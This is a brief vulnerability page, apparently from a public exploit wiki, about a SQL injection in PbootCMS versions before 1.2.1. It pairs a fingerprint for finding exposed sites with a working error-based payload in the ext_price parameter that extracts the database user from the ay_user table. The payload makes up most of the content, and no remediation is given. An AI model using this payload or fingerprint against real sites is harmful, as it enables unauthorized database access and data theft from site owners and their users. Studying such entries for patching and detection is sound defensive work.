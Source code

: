 # PbootCMS ext_price SQL injection vulnerability

## Vulnerability Description

PbootCMS has SQL injection vulnerability. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">PbootCMS < 1.2.1</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="PBOOTCMS"</span>

## Vulnerability reappears

Home page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210702113507454.png)



Test Payload



```plain
/index.php/Index?ext_price%3D1/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,user(),0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23=123](http://127.0.0.1/PbootCMS/index.php/Index?ext_price%3D1/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,user(),0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23=123)
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210702113552582.png)